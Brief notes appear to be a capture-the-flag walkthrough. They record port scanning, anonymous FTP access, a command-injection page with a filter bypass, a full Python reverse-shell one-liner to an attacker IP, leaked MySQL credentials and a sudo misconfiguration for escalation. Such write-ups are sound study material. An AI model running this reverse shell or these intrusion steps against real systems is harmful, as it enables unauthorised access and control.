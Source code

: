 start with nmap

21
22
80

***

ftp 21

anonymous login is success.

found note.txt

`Anurodh told me that there is some filtering on strings being put in the command -- Apaar`

user found:

anurodh
apaar


***

http 80

ffuf

/secret --> cmd exection.

like `note.txt` said there are some filtering on strings.

three users on box:

anurodh 
apaar 
aurick


dir -a /home/apaar/.ssh

we can run any cmd using echo \`cmd\`


```
echo `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.9.112",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 
```
## privs

in /var/www/files/index.php found creds for mysql

```
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");

```

we can run .helpline.sh as apaar

``(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh`